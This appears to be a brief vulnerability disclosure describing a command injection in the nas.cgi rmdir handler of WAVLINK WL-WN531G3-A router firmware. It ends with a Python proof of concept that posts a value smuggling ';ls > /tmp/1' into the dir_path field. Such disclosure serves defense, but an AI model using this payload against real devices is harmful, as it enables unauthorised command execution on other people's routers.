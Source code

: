 # command injection

## WAVLINK_WL_WN531G3_A

version: 20220801

## Description:

There is a command injection in nas.cgi/remove_dir

## Source:

you may download it from : 

[WL-WN531G3-A - WAVLINK See the world! Powered by Wavlink](https://www.wavlink.com/en_us/firmware/details/c85755a050.html)

## Analyse:

![](9.png)

get value from dir_path, then call do_system, cause command injection

## POC

```
url = "http://192.168.0.1/cgi-bin/nas.cgi"
payload = ';ls > /tmp/1  ' + '\n'

r = requests.post(url, data={ 'page':'rmdir', 'dir_path': + payload})
```
